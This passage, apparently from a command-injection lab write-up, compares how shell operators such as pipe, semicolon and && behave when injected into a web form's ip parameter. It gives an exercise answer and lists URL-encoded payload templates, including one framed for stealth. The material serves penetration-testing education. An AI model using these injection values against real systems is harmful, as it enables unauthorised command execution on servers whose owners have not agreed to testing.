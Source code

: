 **Step 3: Pipe Testing**
```http
# Test payload
ip=127.0.0.1%7cwhoami

# Expected result
# Only second command output visible
```

### Output Analysis

**Compare Results:**
- **Semicolon (`;`)**: Both outputs, sequential order
- **AND (`&&`)**: Both outputs, conditional on success
- **OR (`||`)**: Second output only (if first fails)
- **New Line (`\n`)**: Both outputs, separate lines
- **Background (`&`)**: Both outputs, potentially reversed order
- **Pipe (`|`)**: **Only second output** ⭐

**Answer:** **Pipe (`|`)** operator only shows the output of the injected command.

---

## Operator Selection Strategy

### Choosing the Right Operator

**For Maximum Compatibility:**
```bash
# Use new line - works everywhere
payload%0acommand
```

**For Clean Output:**
```bash
# Use pipe - only injected command output
payload%7ccommand
```

**For Reliability:**
```bash
# Use AND - ensures first command succeeds
payload%26%26command
```

**For Error Exploitation:**
```bash
# Use OR - leverages failures
%7c%7ccommand
```

**For Stealth:**
```bash
# Use background - may confuse timing analysis
payload%26command
```
